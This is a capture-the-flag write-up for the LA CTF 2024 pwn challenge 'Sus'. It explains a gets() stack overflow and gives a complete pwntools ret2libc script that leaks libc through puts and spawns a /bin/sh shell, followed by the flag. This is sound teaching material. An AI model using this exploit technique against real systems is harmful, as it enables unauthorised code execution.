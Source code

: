 ```yaml
---
title: Sus
date: 2024-02-22T01:42:02+02:00
description: Writeup for Sus [LA CTF 2024]
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

sus

## Intuition

The challenge is a simple return to libc with ROP. We need to leak the libc base by printing the puts from GOT and then return to ``system``. Luckily, our input also overflows a variable that gets into RDI before return, which gives us control over what ``system`` executes. Running checksec on it shows us there is no PIE, which makes leaking libc through puts is even easier.
```
$ checksec sus
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   38 Symbols	  No	0		1		sus
```

And the decompilation of the challenge:

```c
undefined8 main(void)

{
  char local_48 [56];
  undefined8 local_10;
  
  setbuf(stdout,(char *)0x0);
  local_10 = 0x45;
  puts("sus?");
  gets(local_48);
  sus(local_10);     // <----- local_10 is copied to RDI
  return 0;
}
```

## Solution

Plan is simple:
1. Overflow local_10 to contain the address of puts from GOT
2. Return to puts from PLT to leak libc and then chain back to main
3. Calculate offsets to system and to a string in libc containing "/bin/sh"
4. Overflow local_10 to contain the address of "/bin/sh"
5. Return to system

And the script:
```py
#!/usr/bin/env python3

from pwn import *

is_remote = True

ret = 0x00401016
gets_plt = 0x00401050
puts_plt = 0x00401030
puts_got = 0x00404000
main = 0x00401151

if is_remote:
    system_offset = 0x04c490
    puts_offset = 0x077980
    bin_sh_offset = 0x196031
else:
    system_offset = 0x50d70
    puts_offset = 0x80e50
    bin_sh_offset = 0x1d8678

if is_remote:
    target = remote("chall.lac.tf", 31284)
else:
    target = process("./sus")

payload = 0x38 * b'A' + p64(puts_got) + 0x8 * b'B' + p64(puts_plt) + p64(main)
target.sendlineafter(b"sus?\n", payload)

# return from main
# now it should chain to puts_plt and leak puts_got
leak = target.recvline()[:-1] +  b"\x00\x00"
print(leak)
print(hex(u64(leak)))

libc_base = u64(leak) - puts_offset
system = libc_base + system_offset
bin_sh = libc_base + bin_sh_offset

# get shell
payload = 0x38 * b'A' + p64(bin_sh) + 0x8 * b'B' + p64(ret) + p64(system)

target.sendlineafter(b"sus?\n", payload)

target.interactive()
```

### Flag

``lactf{amongsus_aek7d2hqhgj29v21}``
